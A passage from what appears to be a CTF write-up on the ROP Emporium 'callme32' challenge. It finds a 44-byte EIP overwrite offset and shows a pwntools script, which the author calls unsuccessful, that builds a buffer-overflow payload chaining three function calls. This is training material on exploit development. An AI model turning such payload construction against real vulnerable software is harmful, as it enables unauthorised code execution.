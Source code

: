After the `EIP` register was overwritten, it caused a **Segmentation Fault** error which `GDB-GEF` caught and presented me with all of the information about the crash. I saw that the `EIP` was overwritten with the value `0x6161616c`, then the `pattern offset 0x6161616c` command calculated the offset was **44** bytes.

### Step 4: Writing the (Unsuccessful) Exploit
I first attempted to write an exploit script using `pwntools`. In the first attempt, I tried to pass the required arguments to each function using a 4-byte buffer between the function call and the arguments. This method *sometimes* works with other challenges, however in this challenge because I have to pass 3 arguments to each function and call the functions one after another, it fails with a **Segmentation Fault**.

```
#!/usr/bin/env python3

from pwn import *

# Set the binary context to the local binary
context.binary = binary = ELF("./callme32", checksec=False)
context.log_level = "CRITICAL"

# Get the LIBC used for the binary
libc = binary.libc

gdb_script = """
continue
"""

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(args.HOST or exit("[!] Provide a Remote IP."), int(args.PORT or exit("[!] Provide a Remote Port.")))

    elif args.GDB:
        return gdb.debug([binary.path] + argv, gdbscript=gdb_script, *a, **kw)

    else:
        return process([binary.path] + argv, *a, **kw)


# Exploitation code
offset = 44
buffer = b"A"*offset

arguments = p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)

callme_one = p32(0x080484f0)
callme_two = p32(0x08048550)
callme_thr = p32(0x080484e0)

payload = buffer 
payload += callme_one 
payload += b"A"*4 
payload += arguments
payload += callme_two
payload += b"A"*4
payload += arguments
payload += callme_thr
payload += b"A"*4
payload += arguments 

# Start connection (LOCAL, REMOTE, or GDB)
p = start()

```